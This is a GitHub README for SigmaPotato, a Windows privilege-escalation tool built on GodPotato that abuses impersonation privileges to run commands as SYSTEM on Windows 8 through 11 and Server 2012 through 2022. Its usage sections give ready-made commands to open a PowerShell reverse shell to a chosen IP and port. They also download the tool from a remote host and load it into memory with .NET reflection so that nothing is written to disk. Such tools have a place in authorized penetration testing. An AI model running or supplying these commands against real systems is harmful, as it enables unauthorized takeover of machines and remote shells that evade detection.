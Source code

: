 
This gaudy repository is a derivative of the [GodPotato](https://github.com/BeichenDream/GodPotato) project, 
aiming to enhance the original work's functionality and user-friendliness.  With my bread-and-butter generally
being PowerShell implementation and visual formatting, the primary focus is on enhancing PowerShell support
and output verbosity for a more intuitive and effective user experience.

![Banner](https://cdn.discordapp.com/attachments/855920119292362802/1142248666950803486/image.png)


## Table of Contents

1. [**``Added Functionality over the Original``**](#addedFunctionality)
2. [**``Windows OS Version Compatibility``**](#versionCompatiblity)
3. [**``General Usage``**](#generalUsage)
    - [**``Usage from Disk via the Binary``**](#binaryUsage)
	- [**``Usage from Memory via .NET Reflection``**](#reflectionUsage)
	- [**``Error Correction``**](#errorCorrection)
4. [**``Credits & Thanks``**](#credits)
	- [**``BeichenDream``**](#beichenDream)
	- [**``NukingDragons``**](#nukingDragons)
5. [**``License``**](#license)


## Added Functionality over the Original <a name="addedFunctionality"></a>

### v1.0.0
```
[+] Support for execution from memory via .NET reflection.
    o (allows privilege escalation without writing a binary to disk)
    o (help page includes syntax for both local and remote reflection)
	
[+] Built in reverse shell functionality using '--revshell'.
    o (reverse shell is a custom PowerShell-based payload)
	
[+] Bypassed the 1024 max character limit when executing PowerShell commands.
    o (accomplished via exploiting process environment block inheritance)
    o (theoretical character limit: 32,767)
	
[+] Streamlined tool usage by utilizing implied variables over specified variables.
    o (e.g., no more needing to specifiy the '-cmd' parameter)
	
[+] Enhanced visual formatting of PowerShell process output.
    o (e.g., voiding PowerShell's serialization format "#< CLIXML")
	
[+] Increased output verbosity and visual formatting.
    o (error output verbosity by including suggestions for common error messages)
    o (process outputting and usage help vastly improved)
```

### v1.2.5
```
[+] Streamlined usage when using .NET reflection.
    o (e.g., can now be executed via '[SigmaPotato]::Main("<command">')
    
[+] Improved reverse shell stability and verbosity.
    o (better error correction and now intercepts console data streams)
    
[+] Further refined visual formatting.
    o (cleaned up help message, hints, and general output)
    
```

### Work-in-Progress (WIP)
```
[+] Introduce '--interactive' process support.
    o (this will require 'SeAssignPrimaryTokenPrivilege')
    
[+] Save process output to exported environment variable.
    o (save output of the execute process/command to "$env:SigmaOutput")
    o (will likely only be applicable when using reflection) 
```


## Windows OS Version Compatibility <a name="versionCompatiblity"></a>

For this project I compiled two different binaries for maximum compatibility.  The default
**``SigmaPotato.exe``** has been tested and validated on a fresh installation of every Windows
operating system, from **``Windows 8/8.1 to Windows 11``** *and* **``Windows Server 2012 to Windows
Server 2019``**. The only *"issue"* with this binary is that .NET reflection does not work with PowerShell Core.

The separate **``SigmaPotatoCore.exe``** was compiled with .NET Framework v2.0 and supports .NET
reflection on PowerShell Core / .NET Core.  The downside is that this binary then requires
.NET Framework v3.5 (2.0 + 3.0) to be installed on the target system to work via normal binary 
execution.  So if you plan to only use reflection, this version would be optimal.

**TL;DR**

| Version | Compiled w/ | Binary Compatibility | Reflection Compatibility |
| --- | --- | --- | --- |
| **``SigmaPotato.exe``** | .NET Framework: ``v4.8`` | .NET Framework: ``Any`` | .NET Framework: ``Any (Non-Core)`` |
| **``SigmaPotatoCore.exe``** | .NET Framework: ``v2.0`` | .NET Framework: ``v3.5`` | .NET Framework: ``Any`` |

| Vulnerable Windows Versions |
| --- |
| Windows 8/8.1 - Windows 11 |
| Windows Server 2012 - Windows 2022 |


## General Usage <a name="generalUsage"></a>

**Requirements:**
```txt
Run as a user with 'SeImpersonatePrivilege' or 'SeAssignPrimaryTokenPrivilege' user rights.
```

Checking the help message with ``--help``

![Help](https://cdn.discordapp.com/attachments/855920119292362802/1142283537832235068/image.png)

### Usage from Disk via the Binary <a name="binaryUsage"></a>
---

The easiest way to use ``SigmaPotato`` is by interacting with the binary like you would any other program.
```powershell
# Execute a Command
./SigmaPotato.exe <command>


# Establish a PowerShell Reverse Shell
./SigmaPotato.exe --revshell <ip_addr> <port>


# Return Help Information
./SigmaPotato.exe --help
```

### Usage from Memory via .NET Reflection <a name="reflectionUsage"></a>
---

Prior to privilege escalation, we need to load ``SigmaPotato`` into memory using .NET reflection.

```powershell
# Load from a Local Binary already on Disk
[System.Reflection.Assembly]::LoadFile("$PWD/SigmaPotato.exe")


# Load from a Remotely Hosted Binary via a WebClient
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SigmaPotato.exe")
[System.Reflection.Assembly]::Load($DownloadData)


# Load from a Remotely Hosted Binary via a WebClient (one-liner)
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http(s)://<ip_addr>/SigmaPotato.exe"))
```
- Note: running a simple HTTP server is sufficient for hosting (e.g., ``python -m http.server 80``)
---

Once the ``SigmaPotato`` namespace has been loaded into the current session, you can use it for privilege escalation.

```powershell
# Execute a Command
[SigmaPotato]::Main("<command>")


# Establish a PowerShell Reverse Shell
$RevShell = @("--revshell", "<ip_addr>", "<port>")
[SigmaPotato]::Main($RevShell)


# Establish a PowerShell Reverse Shell (one-liner)
[SigmaPotato]::Main(@("--revshell","<ip_address>","<port>"))
```
- Note: as of ``v1.2.5``, execution no longer requires ``[SigmaPotato.Program]``

### Error Correction <a name="errorCorrection"></a>
---

I made an active effort to document the majority of errors I came accross.
Hopefully this effort allows any error you come across to be quickly diagnosed.

**General usage corrections.**
```txt
PS C:\Users\JoeSchmoe> .\SigmaPotato.exe
[-] No arguments detected.  Use '--help' for usage information.


PS C:\Users\JoeSchmoe> .\SigmaPotato.exe cmd.exe /c whoami
[-] Unexpected arguments detected.  Use '--help' for usage information.
 o  (Hint: you might need to wrap your arguments in quotations)


PS C:\Users\JoeSchmoe> .\SigmaPotato.exe --revshell
[-] Reverse shell functionality is missing arguments.  Use '--help' for usage information.
 o  (Hint: you need to specify an IP address and port)
```

**Invalid filename (or filename not in the default path).**

![Invalid Filename](https://media.discordapp.net/attachments/855920119292362802/1142298026640162848/image.png)

**Command likely exceeds the character limit (but PowerShell commands should bypass this).**

![Command Too Long](https://media.discordapp.net/attachments/855920119292362802/1142298315539615754/image.png)

**User does not have 'SeImpersonatePrivilege' or 'SeAssignPrimaryTokenPrivilege' user rights.**

![Invalid Privileges](https://media.discordapp.net/attachments/855920119292362802/1142301106479837345/image.png)


## Credits & Thanks <a name="credits"></a>

- Enormous credit to [@BeichenDream](https://github.com/BeichenDream) for the original [GodPotato](https://github.com/BeichenDream/GodPotato) project.  I couldn't have made any of this without his
hard work. <a name="beichenDream"></a>

- Huge shoutout to [@NukingDragons](https://github.com/nukingdragons) for being way smarter than me
and helping with the local environment block bootstrap. <a name="nukingDragons"></a>


## License <a name="license"></a>

- [Apache License 2.0](/LICENSE)
